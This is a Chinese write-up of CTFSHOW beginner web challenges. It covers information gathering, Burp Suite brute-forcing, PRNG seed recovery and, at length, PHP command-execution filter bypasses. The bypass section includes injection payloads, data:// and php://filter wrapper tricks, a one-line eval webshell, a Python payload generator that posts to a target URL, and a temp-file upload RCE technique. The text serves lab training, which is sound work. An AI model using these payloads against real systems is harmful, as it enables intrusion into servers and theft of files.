

# CTFSHOW-WEB入门

## 一、信息收集

### web1

 简单的信息收集入门，F12查看源代码


发现flag

------


### web2

进去发现F12和右键被禁用，


在火狐浏览器中，可以打开应用程序菜单>更多工具>页面源代码（或者直接快捷键ctrl+u），查看源代码


获得flag

------


### web3

题目提示可以抓包，可以是浏览器工具进行查看请求包


在响应头中发现flag

------


### web4

题目提示了robots，

如何判断是robots.txt

1）dirsearch扫描一下网站


扫描得到/robots.txt

2）题做得多了就可以判断出robots.txt


输入后，提示一个地址/flagishere.txt

跟进去看看


得到flag

------


### web5

dirsearch简单扫一下没扫到

题目提示phps源码泄露

```
有关源码泄露的知识在下面博客
https://www.cnblogs.com/Lmg66/p/13598803.html
```

于是针对性的扫描一下phps

```
dirsearch -u <URL> -e <phps>
```


发现/index.phps


下载下来index.phps

打开查看


发现flag

------


### web6

老规矩扫描一下


发现/www.zip，


下载www.zip,并打开查看

发现目录下两个文件


分别查看

index.php


提示flag in fl000g.txt

打开fl000g.txt

发现flag{flag_here}

但是不是规定的格式，尝试提交一下，果然不对

猜测fl000g.txt可以在网站里打开，果然


得到flag

------


### web7

扫一下


发现/.git/

进入查看


发现flag

------


### web8

一个字。扫！

发现/.svn


进入看一下


发现flag

------


### web9

插入一个知识点关于vim

```
vim缓存泄露，在使用vim进行编辑时，会产生缓存文件，操作正常，则会删除缓存文件，如果意外退出，缓存文件保留下来，这是时可以通过缓存文件来得到原文件，以index.php来说，第一次退出后，缓存文件名为 .index.php.swp，第二次退出后，缓存文件名为.index.php.swo,第三次退出后文件名为.index.php.swn 
```

这个可以利用dirsearch用字典扫出来

但是我不会（**等我写完wp再说**）

//因为字典里没有.php.swp所以扫描不到

字典加入后，可以扫到


所以我是猜到可能是index产生的缓存文件，猜测出index.php.swp

进入后下载打开


得到flag

------


### web10

根据提示，查看cookie


发现flag

------


### web11*

未做到


------


### web12

扫


打开robots.txt


提示admin

打开


猜测用户名admin

寻找密码

题目提示


查看网页信息


发现一串数字

试一下，登陆成功


发现flag

------


### web13

s


发现几个可疑网站，打开未发现有用线索

检查网站


发现document可以点进去


在文档末尾发现线索

尝试进行登录


登陆成功


获得flag

------


### web14

猜猜我要干啥


惊喜，进入/editor看看


文件上传？不能够啊，研究一下


发现文件空间

检查一下


发现fl000g.txt想办法打开


得到flag

------


### web15

检查网站

发现疑似有用信息1156631961@qq.com


s


发现登陆界面

进去看看


密码？忘记密码看看


你在哪个城市？根据我天狗的经验，qq号可以看位置*（电脑端看不到，手机端可以）


发现在西安

提交后，密码被重置


登陆试试


获得flag

------


### web16

题目中提到探针了解一下先

[[php探针存在xss漏洞_php探针漏洞-CSDN博客](https://blog.csdn.net/wangyuxiang946/article/details/121437511)

提到探针格式为tz.php

用dirsearch没扫出来（和web9一样，字典里没有，加入后也可以扫到）


用御剑扫出来了、


进入tz.php看一下


点开来PHPINFO

检索页面


得到flag

------


### web17

s


发现/.sql

进入看看


打开sql


发现flag

------


### web18

s

扫不出来

查看一下前端文件


发现可疑信息

解码


进入110.php


得到flag

------


### web19

查看原批，不不不，源码


发现用户名和密码

但是密码加密了

试着随便登陆一下


发现密码是经过加密后再用post传上去

我们也如此操作就不用解密了


得到flag

------


### web20

s


扫到/db/

接着扫/db


发现/db.mdb

进去看看


打开db.mdb查看（因为没有打开程序，用VIM不好查看，所以改后缀）


得到flag

------

```html
<div style="page-break-after:always"></div>
```

#### 换页符


<div style="page-break-after:always"></div>

## 二、爆破

### web21

打开题目发现附件，先下载附件查看


发现是本字典，猜测等会可能会用来进行爆破

打开靶机，弹出页面提示登陆


随便输入用户admin，密码passwd，然后进行抓包


发现一串经过base64加密的字符，进行解密发现为admin:passwd

判断出上传的数据格式为

```
用户名：密码
```

且经过base64加密的

针对这种形式进行爆破，选择simple list（简单表单，可以理解为用字典爆破）


字典选取附件中的字典


因为我们只针对密码进行爆破，根据上传数据的格式要设置规则


```
在密码前加上数据：admin：
Add Prefix:admin:

进行base64加密
Base64-encode

#注意顺序#
```

取消勾选此内容


因为“=”会影响base64，所以选择取消

开始爆破


成功爆出密码，进入查看一下


得到flag

------

### web22*

未做到


------

### web23

打开网站，分析一下


什么意思呢

就是你需要get传一个token

token传入值的MD5要满足两个条件：

1、第1位=第14位=第17位

2、（第1位+第14位+第17位）/第1位=第31位

##### 方法一：构建脚本

由此创建脚本

```php
<?php
error_reporting(0);

$string = '0123456789';
for($a=0;$a<strlen($string);$a++){
    for($b=0;$b<strlen($string);$b++){
        for($c=0;$c<strlen($string);$c++){
            $flag = $string[$a].$string[$b].$string[$c];
            $token = md5($flag);
            if(substr($token, 1,1)===substr($token, 14,1) && substr($token, 14,1) ===substr($token, 17,1)){
                if((intval(substr($token, 1,1))+intval(substr($token, 14,1))+substr($token, 17,1))/substr($token, 1,1)===intval(substr($token, 31,1))){
                    echo $flag."\n";
                }
            }
        }
    }
}
?>
    
    #此段代码是网上借鉴的，具体代表的含义和用法，等我写完爆破的wp，再做研究
```

运行一下得到一个满足条件的数：422


那我们就讲422传进入


得到flag

web24？ NONONO既然是在爆破里面，肯定要用到爆破！

##### 方法二：bp爆破

随便传一个，比如?token=1

进行抓包


然后对token=后面的参数进行爆破

如何设置选择Custom iterator(自定义迭代器)


设置参数


这里我传入了0-9加上空格一共11个，但是注意看position后面，是1，代表这里设置的是第一个参数的选择范围，我们简单的先设置三个参数，说白了就是测试从0到999，此题中应该够。什么叫迭代？就是他会自己变化，比如说此题中，如果我们传入一个字典，里面包含了0-999所有的数字，也可以做出来，毕竟我们现在所做的也是测试0-999，但那个不叫迭代，迭代就是三位数，第一位我们设置范围是0-9，第二位，第三位也是，那他就会一个数一位数的变，这就叫迭代

当然，因为我们只测试0-999的数字，我们也可以选用Numbers，如图设置


还有一种Brute forcer（暴力破解）


如此设置也是测试0-999

但是我没有跑，如果Numbers、Brute forcer和Custom iterator都没有跑出来


```
Custom iterator方式下，我们可以添加英文大小写字母，或者直接传入所有可打印字符
Numbers方式下，我们可以增加位数，4位，5位......
Brute forcer方式下，两种方法都可以
```

但是要注意，毕竟是爆破，加入的东西越多，跑的时间按越长，所以此题最优解就是写脚本，找的满足条件的值，比爆破来的快

```小建议
如果在比赛中可以酌情考虑方法，毕竟有时候条件可能会看不懂，或者正好要去吃饭，bp挂在那跑一下，也是可以的，附加一条，爆破的时候注意容器时间！！！
```

这会功夫已经跑出来了


还是422，我们点进去查看一下


得到flag

------

### web24

打开靶机，仔细分析


GET传入一个r，r=随机数，告诉了我们随机数的种子，写个脚本

```php
<?php
mt_srand(372619038);
echo mt_rand();
?>
#这个我真是自己写的！！
```

查看一下php版本，版本不同，出来的随机数不一样


比如上图，php为5.6，出来的随机数就不一样，所以我们要查看一下网站的php版本


在X-Powered-By中查看到用的是PHP/7.3.11

找到对应版本（这里好像涉及到一个知识点php执行环境5.6和7.1的区别，具体怎么回事，等我写完wp的），执行指令

得到随机数：1155388967


将其传入


得到flag

至于爆破，大佬说不如写脚本


但是也给出了解决方案


这个插件，我下载了，理解了一下原理

就是写个脚本，让他根据脚本进行爆破，显然，俺不会！但是网上可以找到别人写好的脚本，毕竟


懂得都懂

------

### web25

分析一下


首先要r传入一个随机值，然后设置cookie：token=两个随机值相加

但是我们不知道种子，根据提示，如果传错会打印随机值

我们先随便传一个r=0


得到随机数，然后逆推种子

这里用到了一个工具php_mt_send，下面是教程

[php_mt_seed - PHP mt_rand() 随机数种子破解使用_php_mt_seed怎么安装-CSDN博客](https://blog.csdn.net/weixin_46250265/article/details/113919405)

然后进行爆破随机数


查看网页的php版本


发现为7.1以上，那我们就测试一下爆出来的7.1以上的种子

```
<?php
mt_srand(种子);
echo mt_rand()."\n";
echo mt_rand()+mt_rand();
?>
```

跑出来是


将两个数值传入试试


得到flag

------

### web26

打开实例

开始安装

查看源码，发现一个网页check.php，和一段post传参的要求


##### 方法一：

我们打开网页，按照要求进行post传参，

```
a=&p=&d=&u=&pass=
要求几个参数均为空
```


传入后得到flag

##### 方法二：爆破

不忘初心噻

参数就按照他给定的填写


然后抓包


密码123456肯定不对嘛

爆破，字典还是选用前几个题目给的字典


静候雷佳音

发现爆不出来，不要慌，换一本字典


最后爆出来的密码应该是7758521（亲亲我吧我爱你）也算是我们当年常用的密码，传入密码


得到flag

------

### web27

打开网站，发现需要登陆，但是有录取名单和学生学籍信息查询系统


打开录取名单发现身份证号中间几位被隐藏


随便在查询系统里输入中间几位进行抓包爆破


然后你会惊奇的发现，抓不到包


小慌一下吧

换个浏览器试试,直接用bp自带的浏览器

因为是自带的，所以不需要设置代理


然后对身份证不知道的地方进行爆破

爆破模式选择Dates


要注意设置年月日格式为yyyyMMdd

开始爆破


爆出来为19900201

将其输入进行查询


得到密码学号进行登录


得到flag

------

### web28

进入，刷新抓一下包


发现一个有意思的地方


这个地方，谁家好人目录用数字啊，猜一下其他目录也是数字？

爆破，

补：这是一些用法


这里的攻击方式选择Cluster bomb（集束炸弹）


最后爆破出来的是/72/20/


打开这个网页看看


得到flag

<div style="page-break-after:always"></div>

------

## 三、命令执行

大佬们对命令执行进行了分类一共三类

### 类型一

变量来接受并过滤传入的数据,eval函数来执行

#### web29

打开容器，是一个命令执行


过滤了flag，/i代表不分大小写

##### 方法一：可使用通配符绕过

命令执行中get传参的形式 

```
?变量=system("指令");
这里system为命令执行函数，可以置换推荐passthru()

命令执行函数
system() 输出并返回最后一行shell结果。
exec() 不输出结果，返回最后一行shell结果，所有结果可以保存到一个返回的数组里面。
shell_exec() 将字符串作为OS命令执行，需要输出执行结果，且输出全部的内容。
passthru() 只调用命令，把命令的运行结果原样地直接输出到标准输出设备上。
popen()/proc_open() 该函数也可以将字符串当作OS命令来执行，但是该函数返回的是文件指针而非命令执行结果。该函数有两个参数。
反引号 同shell_exec() 


输出函数
cat函数 由第一行开始显示内容，并将所有内容输出（被过滤！）
tac函数 从最后一行倒序显示内容，并将所有内容输出（被过滤！）
nl      类似于cat -n，显示时输出行号（被过滤！）
more    根据窗口大小，一页一页的现实文件内容（被过滤！）
less    和more类似，但其优点可以往前翻页，而且进行可以搜索字符（被过滤！）
head    只显示头几行（被过滤！）
tail    只显示最后几行（被过滤！）
sort    文本内容排列
uniq    可检查文本文件中重复出现的行列。
od od   （Octal Dump）命令用于将指定文件内容以八进制、十进制、十六进制、浮点格式或ASCII编码字符方式显示，通常用于显示或查看文件中不能直接显示在终端的字符。od命令系统默认的显示方式是八进制。
strings: 在对象文件或二进制文件中查找可打印的字符串, 在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行。此时，可以使用如下命令： grep test *file strings
paste	把每个文件以列对列的方式，一列列地加以合并
grep	 grep { flag.php打印有”{“的一行
sed		一种编辑器，可以用sed -f flag.php读取flag

readfile()			读取文件
highlight_file()	读文件
show_source()		同上
base64_decode()		base64解码
strrev()			反转字符串

空格绕过：
${IFS}
{IFS}$9
$IFS$9
重定向符：<>（但是不支持后面跟通配符）
%09 水平制表符
%0a 回车
%0d 换行

通配符

?             问号，匹配任意一个字符
*	          前一个字符匹配0次或任意多次
.	          匹配除了换行符以外任意一个字符
^	          匹配行首。例如：^helloworld会匹配以helloworld开头的行
$	          匹配行尾。例如：helloworld$会匹配以helloworld结尾的行
[]	          匹配中括号里的任意指定的一个字符，但只匹配一个字符
[^]	          匹配除中括号以外的任意一个字符
\	          转义符，取消特殊含义
{n}	          表示其前面的字符恰好出现n次
{n,}	      表示其前面的字符出现不小于n次
{n,m}	      表示其前面的字符至少出现n次，最多出现m次

eg：
[a-z]表示任何小写字母
a*会匹配所有内容，因为a可以出现0次
o{2,}不匹配Bob中o，匹配foooooood中所有的o
————————————————
版权声明：本文为CSDN博主「zgqxiexie」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/zgqxiexie/article/details/51184602
```

这题中我们的指令为

```
?c=system("cat f*");
```

传入后查看源码


得到flag

##### 方法二：

```
1.通配符fla?绕过flag检测

2.c=echo `nl fl\ag.php`;//转义字符绕过

3.通过变量赋值直接绕过c的过滤 这个后面会经常用到，到时候再细讲
c=include($_GET[1]);&1=php://filter/read=convert.base64-encode/resource=flag.php

4.c=eval($_GET[1]);&1=system('nl flag.php');

```


------

#### web30

进入后分析一下


屏蔽了flag、system、php

根据web29讲的，进行更改指令

```
?c=passthru("cat f*");
```


得到flag

------


#### web31

分析


这次过滤的有些多，过滤了以下字节

```
flag、system、php、cat、sort、shell、\.、空格、\'
```

这次我们试一下新命令

```
?参数=echo(`指令`);
system可以用 ` 反引号来代替去执行命令
所以也可以用
?参数=echo`指令`;
```

那这题我们就可以写成

```
?c=echo(`tac%09f*`);
```

传入


得到flag

------

#### web32

分析


过滤了

```
flag|system|php|cat|sort|shell|\.| |\'
```

编写命令

```
?c=passthru("tac%09f*");
```

输入


得到flag

妈的，开错实例了

分析


过滤了

```
flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(
```

构建命令,利用文件包含include可以不用括号,分号用?>代替

```
?c=include$_GET[a]?>;&a=php://filter/read=convert.base64-encode/resource=flag.php
或者
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>

?c=include$_GET[a]?>&a=各种伪协议

```

介绍一下伪协议吧

```
适用于include（$参数）

data:text/plain,<?=system("tac fla*");?>

data伪协议的格式:

data://text/plain;base64,

data:资源类型(MIME类型);编码,内容


    
1.c=data://text/plain,<?php system("cat fla*");?>
读flag

2.c=data:,<?php @eval($_POST['shell']); ?>
可以直接用蚁剑连接

3.c=data:text/base64,PD9waHAgQGV2YWwoJF9QT1NUWydzaGVsbCddKTsgPz4=

data类型扩展
data:,                                     <文本数据>
data:text/plain,                           <文本数据>
data:text/html,                            <HTML代码>
data:text/html;base64,                     <base64编码的HTML代码>
data:text/css,                             <CSS代码>
data:text/css;base64,                      <base64编码的CSS代码>
data:text/javascript,                      <Javascript代码>
data:text/javascript;base64,               <base64编码的Javascript代码>
data:image/gif;base64,                     <base64编码的gif图片数据>
data:image/png;base64,                     <base64编码的png图片数据>
data:image/jpeg;base64,                    <base64编码的jpeg图片数据>
data:image/x-icon;base64,                  <base64编码的icon图片数据>
```

这里我们采用

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

**至于为什么后面可以出现过滤掉的字符，因为只是对get传入的c进行过滤**

输入


得到flag

------

#### web33

分析


过滤了

```
flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"
```

但是对于web32构建的命令并没有影响，再次利用

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```


得到flag

------

#### web34

分析


比上题多过滤了一个：

但对于web32的并没有影响

继续使用

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```


(因为技术问题部分截图损失，故有些类似题目采用相同截图)

得到flag

------

#### web35

分析


多过滤了（和=

继续用32

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```


得到flag

------

#### web36

分析


多过滤了数字和/

继续用32的

```
/?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```


得到flag

------

#### web40

分析


过滤了

```
[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\

注意：这里过滤的是中文的括号（）,而非英文的括号()
过滤了冒号，伪协议就无法使用

```


那我们使用无参数的rce进行构造读取文件：

```
无参数的rce：

scandir() :           将返回当前目录中的所有文件和目录的列表。返回的结果是一个数组，其中包含当前目录下的所有文件和目录名称

getcwd() :取得当前工作目录

hightlight_file()、show_source()、readfile()：读取文件内容

dirname():函数返回路径中的目录部分

eval()、assert()：命令执行

print_r(scandir(‘.’)); 查看当前目录下的所有文件名

localeconv() 函数返回一包含本地数字及货币格式信息的数组。

current() 函数返回数组中的当前元素（单元）,默认取第一个值，pos是current的别名

chdir() ：函数改变当前的目录。

strrev():用于反转给定字符串

array_reverse() 以相反的元素顺序返回数组

array_flip() :交换数组中的键和值，成功时返回交换后的数组

array_rand() :从数组中随机取出一个或多个单元

数组移动操作

each() 返回数组中当前的键/值对并将数组指针向前移动一步

end() 将数组的内部指针指向最后一个单元

next() 将数组中的内部指针向前移动一位

prev() 将数组中的内部指针倒回一位

reset() ： 将内部指针指向数组中的第一个元素，并输出


highlight_file(array_rand(array_flip(scandir(getcwd())))); //查看和读取当前目录文件
print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件
print_r(scandir(next(scandir(getcwd()))));  //查看上一级目录的文件
show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd()))))))); //读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));//读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));//读取上级目录文件

```

我们先打印当前目录下的文件

```
?c=print_r(scandir(current(localeconv())));

相当于ls

```


读取目录文件后，发现输出的是数组，而文件名是数组中的值，下一步我们需要取出想要读取文件的数组

构建命令

```
/?c=show_source(next(array_reverse(scandir(pos(localeconv())))));
```


得到flag

------

#### web41

分析


过滤了数字和字母还有一些其他符号

```
\^|\+|\~|\$|\[|\]|\{|\}|\&|\-
```

我们可以利用或运算符进行构造payload进行命令执行
思路：

```
例如源码中禁止我们使用了数字3，也就是ascii码值为51，我们可以使用或运算符在没有被禁止的字符中构造出51来，比如19和32没有被禁止，我们进行或运算19|32=51，就可以获得51这个ascii码值，也就是成功得到了数字3
```

网上copy的脚本，自己加的注释，（按理说应该适应类型一的所有类型）

```python

#-- codinI:UTF-8 --


# 导入用于发送 HTTP 请求的 requests 模块。
import requests
#导入用于 URL 编码解码的 urllib 模块
import urllib
#导入正则表达式模块
import re

#导入 sys 模块的所有内容
from sys import *

# 如果命令行参数的数量不等于2，则输出使用说明并退出
if len(argv) != 2:

    print("="*50)
    print('USER:python exp.py <url>')
    print("eI:  python exp.py http://ctf.show/")
    print("exit: input exit in function")
    print("="*50)
    exit(0)
# 获取命令行参数中的 URL 
url=argv[1]

#生成可用的字符,定义一个函数，生成可用字符的组合并写入到文件 rce.txt 中
def write_rce():
    result = ''

    # 定义一个正则表达式字符串 preg，用于匹配数字、小写字母以及一些特殊字符。
    #这一段是需要更改的
    preg = '[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-'

    # 遍历 ASCII 码中的所有可能字符。
    for i in range(256):
        # 在每次循环中，再次遍历 ASCII 码中的所有可能字符
        for j in range(256):
            #如果字符 chr(i) 和 chr(j) 都不匹配正则表达式 preg，即它们不是数字、小写字母或特殊字符之一，那么执行以下操作。
            if not (re.match(preg, chr(i), re.I) or re.match(preg, chr(j), re.I)):
                # 将 i 和 j 进行按位或运算，得到一个新的字符 k。
                k = i | j
                # 如果新生成的字符 k 在可显示字符的 ASCII 范围内（32-126），则执行以下操作。
                if k >= 32 and k <= 126:
                    # 将 i和j 转换成两位的十六进制形式，并添加 '%' 前缀。
                    a = '%' + hex(i)[2:].zfill(2)
                    b = '%' + hex(j)[2:].zfill(2)
                    # 将生成的字符 chr(k) 以及对应的十六进制形式添加到 result 字符串中。
                    result += (chr(k) + ' ' + a + ' ' + b + '\n')
    f = open('rce.txt', 'w')
    f.write(result)

# 定义一个函数，根据输入的命令在生成的 rce.txt 中进行匹配，返回相应的字符组合。
def action(arg):
    s1=""
    s2=""
    #对于输入的参数 arg 中的每个字符执行以下循环
    for i in arI:
        f=open("rce.txt","r")
        while True:
            t=f.readline()
            if t=="":
                break
            if t[0]==i:
                #将当前行的第3到第5个字符（十六进制表示的第一个字符）添加到字符串 s1 中。
                s1+=t[2:5]
                #将当前行的第7到第9个字符（十六进制表示的第二个字符）添加到字符串 s2 中。
                s2+=t[6:9]
                break
        f.close()
    #构造一个字符串 output，形如 ("s1"|"s2")，其中 s1 和 s2 是之前匹配到的字符组合的十六进制表示。
    output="(\""+s1+"\"|\""+s2+"\")"
    return(output)
    
#是脚本的主函数，包含整个脚本的主要逻辑。
def main():
    write_rce()
    while True:
        s1 = input("\n[+] your function：")
        if s1 == "exit":
            break
        s2 = input("[+] your command：")
        #根据用户输入的功能和命令，调用 action 函数生成相应的参数。
        param=action(s1) + action(s2)
        #构造一个字典 data，包含 POST 请求的参数，其中 'c' 的值是经过 URL 解码的参数。
        data={
            'c':urllib.parse.unquote(param)
            }
        #发送 POST 请求到指定的 URL，带上构造好的参数。
        r=requests.post(url,data=data)
        print("\n[*] result:\n"+r.text)

main()


```

将其运行


写入靶机地址


cat f*


得到flag

------

<div style="page-break-after:always"></div>

### 类型二

变量接收并过滤传入的数据,include来包含文件

#### web37

分析


$c没有执行, 而是包含文件

先看一下32的命令

```
/?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>

前半段/?c=include$_GET[a]?>其实就是用include来包含文件，前面是因为有过滤才写成这个形式，可以简写为c=include（a），然后传入一个参数a，然后用a=data://text/plain,<?php system("命令");?>来执行命令
```

这题中已经给你了一个include（$c），所以我们直接直接执行命令就行


但是这里的c，过滤掉了大小写的flag


构建命令

```
/?c=data://text/plain,<?php system("cat f*");?>
```


得到flag

------

#### web38

分析


过滤了

```
flag|php|file
```

那么上题中的payload就用不了，重新构建

```
/?c=data:text/plain,<?=system("tac fla*");?>
```


得到flag

------

#### web39

分析


过滤flag, 但是文件包含处拼接了.php

38可以接着用

```
/?c=data:text/plain,<?=system("tac fla*");?>
```


得到flag

------

<div style="page-break-after:always"></div>

### 类型三

接受并过滤传入的变量拼接命令执行（system函数）和类型一的区别是题目中已经给了sysytem函数


就不需要我们重新构建了

#### web42

分析


后面多了一个" >/dev/null 2>&1"语句，意思是写入的内容会永远消失，也就是不进行回显

```
1：> 代表重定向到哪里，例如：echo “123” > /home/123.txt
2：/dev/null 代表空设备文件
3：2> 表示stderr标准错误
4：& 表示等同于的意思，2>&1，表示2的输出重定向等同于1
5：1 表示stdout标准输出，系统默认值是1，所以">/dev/null"等同于 “1>/dev/null”
因此，>/dev/null 2>&1 也可以写成“1> /dev/null 2> &1”
```

这题终究是：首先表示标准输出重定向到空设备文件，也就是不输出任何信息到终端，也就是不显示任何信息。 接着，标准错误输出重定向到标准输出，因为之前标准输出已经重定向到了空设备文件，所以标准错误输出也重定向到空设备文件。

我们进行一下命令分隔就ok了

常用的分隔符

```
; 分号顺序执行
&& 顺序执行
|| 前边执行成功则不再执行
换行符(在url中是%0a)
& (在url中是%26)
```

构建payload

```
/?c=cat f*;
```


得到flag

------

#### web43

分析


过滤了

```
;|cat
```

构建命令

```
/?c=tac f*%26
```


得到flag

------

#### web44

分析


过滤了

```
;|cat|flag
```

构建命令

```
?c=tac fla*%26
```

得到flag


------

#### web45

分析


过滤了

```
\;|cat|flag
```

比上一题多过滤了;和空格，但是并没有影响，使用%09进行绕过，%09是tab的url编码

构建命令

```
?c=tac%09fla*%26
```

得到flag


------

#### web46

分析


过滤了

```
"/\;|cat|flag| |[0-9]|\\$|\*/i"
```

把数字都过滤了，还把通配符`*`进行了过滤，我们可以改用`?`进行匹配，空格的话还是可以继续使用%09，分隔符还是用%26，它们不属于过滤的数字范畴

查看flag位置

```
?c=ls%26
```


构建命令

```
?c=tac%09fla?.php%26
```

得到flag


------

#### web47

分析


过滤了

```
"/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i"
```

多过滤了几个读取文件的命令（命令介绍见web29），但tac没有被过滤

先查看flag位置

```
?c=ls%26
```


构建命令

```
?c=tac%09fla?.php%26
```

得到flag


------

#### web48

分析


过滤了

```
"/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i"
```

没有影响

查看flag位置

```
?c=ls%26
```


构建命令

```
?c=tac%09fla?.php%26
```

得到flag


------

#### web49


过滤了

```
"/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i"
```

查看flag位置

```
?c=ls%26
```


构建命令

```
?c=tac%09fla?.php%26
```

得到flag


------

#### web50

分析


过滤了

```
"/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i"
```

天杀的把我的%09和%26过滤掉了

那我们的空格绕过就用<>来绕过，分隔符用||绕过

构建命令查看flag位置

```
?c=ls||
```


这里发现了问题，存在一个fla？.php，而通配符？和<>一起无法显示（why？），所以改用\绕过

构建命令

```
/?c=tac<>fl\ag.php||
```

得到flag


------

#### web51

分析


过滤了

```
"/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i"
```

过滤了tac，我们用t\ac来绕过

先查看flag位置


构建命令

```
?c=t\ac<>fl\ag.php||
```

得到flag


------

#### web52

分析


过滤了

```
("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i"
```

这次过滤了尖括号，但$没有过滤，所以空格过滤可以用${IFS}

查看flag位置


构建命令

```
?c=ta\c${IFS}fl\ag.php||
```

发现flag换位置了


重新对根目录进行查找

```
?c=ls${IFS}/||
```

发现flag位置


构建命令

```
?c=ta\c${IFS}/fl\ag||
```

得到flag


------

#### web53

分析


过滤了

```
"/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i"
```

没有重定向了，就不需要分隔符了

查看flag位置


构建命令

```
?c=t\ac${IFS}fla?.php
```

得到flag


------

#### web54

分析


过滤了

```
"/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i"
```

导致我们无法利用\的形式进行分割

##### 方法一：利用grep命令

grep命令可以查找文件中含有指定字符的那一行，并且打印出来

```
grep flag flag.php 
```

先查找flag位置


构建命令

```
?c=grep${IFS}show${IFS}fla??php
```

得到flag


##### 方法二：利用bin文件夹下的基本命令

linux中的bin文件夹下储存着基本命令，可以使用通配符去调用命令，bin为binary的简写，主要放置一些系统的必备执行档例如:cat、cp、chmod df、dmesg、gzip、kill、ls、mkdir、more、mount、rm、su、tar、base64等。
 我们日常直接使用的cat或者ls等等都其实是简写，例如ls完整全称应该是/bin/ls



比如：想要利用cat命令，我们可以使用

```
?c=/bin/cat
```

来实现，由此可以构建命令

```
?c=/bin/?at${IFS}f???????
?c=/bin/??t$IFS????????
```

在源码里查看flag


#### web55

分析


过滤掉了英文字母

##### 方法一：使用base64对文件进行读取

```url
?c=/bin/base64 flag.php
?c=/???/????64 ????????

```


得到经过base64加密的内容

经过base64解码得到flag


##### 方法二：bzip2的使用

bzip2是linux下面的压缩文件的命令
我们可以通过该命令压缩flag.php 然后进行下载

```
?c=/???/???/???2 ????.???
```

也就是/usr/bin/bzip2 flag.php
然后访问/flag.php.bz2进行下载获得flag.php


解压得到flag


##### 方法三：强制文件上传下的无字母数字RCE

在PHP中，强制上传文件时，文件会被存在临时文件/tmp/phpxxxxxx中

这个文件最后六位xxxxxx有大小写字母、数字组成，生命周期只在PHP代码运行时。

题目中正则匹配过滤了大小写字母（i）

故我们要匹配/tmp/phpxxxxxx的话可以用通配符/???/?????????

/???/?????????范围太大了，我们如何缩小范围呢。

查看ascii码表，A前面是@，Z后面是[

/???/????????[@-[]就表示了最后一位是大写

当临时文件最后一位是大写字母时/???/????????[@-[]就能匹配到这个文件

linux中 . 代表执行一个文件，相当于source 可以执行sh命令。

如果上传的文件是一个shell脚本，那么. /???/????????[@-[]（burp里面空格要写成+或者%20）就能执行这个shell脚本，实现RCE。

首先构建一个文件上传的upload.html


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
<form action="http://1dd04609-ca53-4e68-a4d7-381957302f31.challenge.ctf.show/" enctype="multipart/form-data" method="post" >

    <input name="file" type="file" />
    <input type="submit" type="gogogo!" />

</form>

</body>
</html>
```

这里我用的小皮用bp自带的浏览器打开upload


构建文本text.txt，进行上传抓包


抓到包


但是我们上传的临时文件生命周期只在PHP代码运行时。所以我们要同时进行访问，怎么访问到呢，前面说过，构建一个

```
. /???/????????[@-[]
但是在bp里就要写成
.+/???/????????[@-[]
```

就有机会访问并执行，没错有机会


发送到Repeater，发送请求
